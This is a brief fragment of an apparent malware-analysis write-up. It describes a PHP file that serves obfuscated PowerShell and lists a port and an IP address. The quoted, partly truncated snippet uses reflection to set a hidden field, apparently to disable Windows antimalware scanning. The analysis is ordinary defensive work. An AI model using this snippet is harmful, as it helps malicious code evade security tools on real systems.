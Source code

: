 ### 🔓**Artifact** #2

| File | Type | Observations | TCP [Port] | IP |
| --- | --- | --- | --- | --- |
| ***phyllopodan7V7GD.php*** | Returns a PowerShell obfuscated blob. | sends back a small PowerShell snippet:
`powershellCopy code$vl1 = ("yyWubZ...EC9F" -match "iTqmHcYttKZ7")
$v2=$c.GetFields("NonPublic,Static")
Foreach($v3 in $v2) {if ($v3.Name -like "*am*ed") {$v3.SetValue($null, $vl1)}` | 1514 | `ip.addr = 79.124.78.109` |

![image.png](image%202.png)

![image.png](image%203.png)
